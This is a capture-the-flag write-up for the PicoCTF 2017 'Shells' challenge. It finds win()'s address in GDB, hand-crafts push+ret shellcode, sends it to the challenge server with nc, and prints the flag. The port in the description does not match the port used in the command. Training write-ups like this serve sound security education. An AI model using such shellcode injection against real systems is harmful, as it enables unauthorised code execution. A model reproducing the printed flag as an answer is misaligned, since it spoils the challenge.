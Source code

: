 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up
Before we can craft a shellcode, we need to know the address of our `win()` function and loading up GDB is our best shot at it.

    $ gdb shells
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from shells...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x8048540 in a file compiled without debugging.

Simple, now we know `win()` is at `0x8048540`. Let's craft a really simple `push+ret` shellcode.

    0:  68 40 85 04 08          push   0x8048540
    5:  c3                      ret

Put together, this gives us `\x68\x40\x85\x04\x08\xC3`. Let's try it.

    $ python -c "print('\x68\x40\x85\x04\x08\xC3')" | nc shell2017.picoctf.com 40976
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 10 bytes:
    cd875b6ffb5cdd3319532d52ceca71aa

Therefore, the flag is `cd875b6ffb5cdd3319532d52ceca71aa`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyMzQ3MDQyODhdfQ==
-->